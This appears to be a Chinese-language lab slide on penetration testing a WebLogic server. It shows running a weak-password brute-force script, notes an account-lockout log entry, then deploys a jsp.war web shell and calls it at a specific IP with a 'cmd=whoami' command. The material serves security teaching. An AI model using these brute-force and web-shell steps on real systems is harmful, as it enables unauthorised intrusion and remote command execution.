

# 实验-常规渗透测试环境
尝试爆破控制台弱口令：
python weblogic-weakpasswd.py

然而，在真实的环境下，可能是有锁定机制的，本环境中日志中就出现了：
User wlpisystem in security realm myrealm has had 5 invalid login attempts, locking account for 30 minutes.

获取弱口令后登录后台，部署jsp.war,之后访问webshell：
http://202.112.51.134:7001/jsp/jsp.jsp?cmd=whoami